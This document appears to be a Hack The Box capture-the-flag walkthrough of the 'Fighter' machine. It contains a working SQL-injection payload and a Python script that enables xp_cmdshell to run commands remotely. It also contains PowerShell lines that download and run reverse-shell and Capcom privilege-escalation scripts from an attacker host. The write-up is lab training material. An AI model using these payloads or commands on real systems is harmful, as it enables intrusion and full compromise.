 ### Fighter

#### keyword, xP_cMdsHeLl

gobuster  

#### information

Nmap 7.70 scan initiated Thu Mar 21 09:11:51 2019 as: nmap -sC -sV -oA nmap 10.10.10.72
Nmap scan report for 10.10.10.72
Host is up (0.37s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: StreetFighter Club

#### **look the website**

firefox http://10.10.10.72/

"  We're
currently redesigning our website streetfighterclub.htb for a
new 
modern look and functionality. The new site should be up and running
soon.
Meanwhile our<span style=color:red> "old" members site is still available for our registered </span>
members (p.s you know the link...)"

#### edit /etc/hosts

10.10.10.72 streetfighterclub.htb members.streetfighterclub.htb

#### **Enum the website**

```
 gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u http://members.streetfighterclub.htb/ -f

[+] Mode         : dir
[+] Url/Domain   : http://members.streetfighterclub.htb/
[+] Threads      0
/old/ (Status: 403)

```

http://members.streetfighterclub.htb/old/login.asp

###  LoginType hava sql injection 

 there has a sql inject in [logintype]()  , payload is 1+union+select+1,2,3,4,5,6--+-　number [5]()   is the result on the Email of responder.

```shell
POST /old/verify.asp HTTP/1.1
Host: members.streetfighterclub.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://members.streetfighterclub.htb/old/Login.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Cookie: ASPSESSIONIDQASQRDRR=ABEDGDHBGDKGADJOBEJGOOAB; Email=; Level=%2D1; Chk=3506; password=cGFzczJ3b3Jk; username=YWRtaW4%3D; ASPSESSIONIDQATQQCRR=GPPJKHHBICJCCJKHKDFJJHIC
Connection: close
Upgrade-Insecure-Requests: 1

username=admin&password=asdfasdf&logintype=1+union+select+1,2,3,4,5,6--+-&rememberme=ON&B1=LogIn

soft-IIS/8.5
Set-Cookie: Level=Ng%3D%3D; path=/
Set-Cookie: Email=NQ%3D%3D; path=/
Set-Cookie: Chk=2351; path=/
Set-Cookie: password=YXNkZmFzZGY%3D; expires=Fri, 20-Mar-2020 02:17:16 GMT; path=/
Set-Cookie: username=YWRtaW4%3D; expires=Fri, 20-Mar-2020 02:17:16 GMT; path=/
X-Powered-By: ASP.NET
Date: Thu, 21 Mar 2019 02:17:16 GMT
Connection: close
Content-Length: 132

<head><title>Object moved</title></head>

<body><h1>Object Moved</h1>This object may be found <a HREF="welcome.asp">here</a>.</body>
```

### check the xp_cmd shell 

username=admin&password=asdfasdf&logintype=1+union+select+1,2,3,4,(SELECT+CONVERT(INT,+ISNULL(value,+value_in_use))+AS+config_value+FROM++sys.configurations+WHERE++name+%3d+'xP_CmDsHeLl'),6--+-&rememberme=ON&B1=LogIn

remember <span style=color:red> xp_cmdshell to xP_CmDsHeLl </span>

that is good!



####  execute command by python3

this is a import thing, <span style=color:red> cmd = cmd.replace("'", "''")</span>

1; insert into test (output) exec xP_CmDsHeLl 'c:\\windows\\syswow64\\windowspowershell\\v1.0\\powershell  IEX(new-object net.webclient).downloadString(''http://10.10.14.27/rv-9000.ps1'')';-- -

~~~python
#!/usr/bin/python3

import requests
import urllib.parse
import base64

class Fighter(object):

```
def __init__(self):
    self.url = "http://members.streetfighterclub.htb/old/verify.asp"
    self.proxies = "http://127.0.0.1:8080"

    self.enablecmd= '''1;exec sp_configure 'show advanced options',1;\
            reconfigure;\
            exec sp_configure 'xP_CmDsHeLl', 1;\
            reconfigure;\
            '''
    self.createtable = '''1; create table test(ID int identity(1,1) primary key, output varchar(1024));\
    '''

    self.truncate = '''1;truncate table test;\
    '''
```

```
    self.getcount = '''1 union select 1,2,3,4,(select top 1 ID  from test order by ID desc),6-- -\
    '''
    self.session =  requests.session()
    self.session.get(self.url)

    self.post(self.enablecmd)
    self.post(self.createtable)

def post(self, payload):

    proxies = {'http' : self.proxies}

    #enquote = urllib.parse.quote(payload);
    data = {
        'username': 'admin',
        'password': 'password',
        'logintype': payload,
        'rememberme': 'ON',
        'B1': 'LogIn'
    }

    return self.session.post(self.url, proxies=proxies, data=data, allow_redirects=False)

def runcmd(self, cmd):

    self.post(self.truncate)

    cmd = cmd.replace("'", "''")
    payload = f"1; insert into test (output) exec xP_CmDsHeLl '{cmd}';-- -"

    self.post(payload)

    r  =  self.post(self.getcount)
    count = int(self.decode(r.cookies))

    for i in range(0, count):
        id = i + 1;
        op = '1 union select 1,2,3,4,(select top 1 output from test where ID = %d),6-- -' %id
        try:
            r = self.post(op)
            print(self.decode(r.cookies).decode('utf-8'))
        except:
            pass

def decode(self,cookies):
    return base64.b64decode(urllib.parse.unquote(cookies['Email']))
```

o = Fighter()

while True:
    cmd = input(">")
    o.runcmd(cmd)
~~~

#### revershell 

```powershell
c:\\windows\\syswow64\\windowspowershell\\v1.0\\powershell  IEX(new-object net.webclient).downloadString('http://10.10.14.27/rv-443.ps1')
```

#### truncate  <span style=color:red> access mode file </span>

// [system.io.file]::open('file', [system.io.filemode]::truncate)

cmd /c "type c:\users\sqlserv\task >> c:\users\decoder\clean.bat"

get the reverse shell



###  Catcom moudle exploit

cmd /c "driverquery"

Module Name  Display Name           Driver Type   Link Date
============ ====================== ============= ======================

Capcom       Capcom                 Kernel        05/09/2016 08:43:33

http://www.fuzzysecurity.com/tutorials/28.html

https://github.com/FuzzySecurity/Capcom-Rootkit

for i in $(find . -name "*.ps1" ); do (cat $i &&  echo ) >> a.txt; done

PS C:\users> IEX(new-object net.webclient).downloadString('http://10.10.14.27/capcom.ps1')

PS C:\users> capcom-elevatepid

## ida-free

new-instance->load root.ext -> view->opensubview->strings(shift+f12)->"string passwd"->select "rdata:0040211C"(ctrl + x) --> call    ds:check



new-install ->load check checkdll.dll ->  view->opensubview->strings(shift+f12)->

->

loc_10001010:
mov     cl, byte ptr ds:aFmFeholH[edx+eax] ; "Fm`fEhOl}h"
xor     cl, 9
cmp     cl, byte ptr ds:aFmFeholH[eax] ; "Fm`fEhOl}h"



## get the real pass key

```python
enpasswd = 'Fm`fEhOl}h'
for i in enpasswd:
    print(chr(ord(i)^9),end='')
```

PS C:\users\administrator\desktop> c:\users\administrator\desktop\root.exe OdioLaFeta
d801c1e9bd9a02f8fb30d8bd3be314c1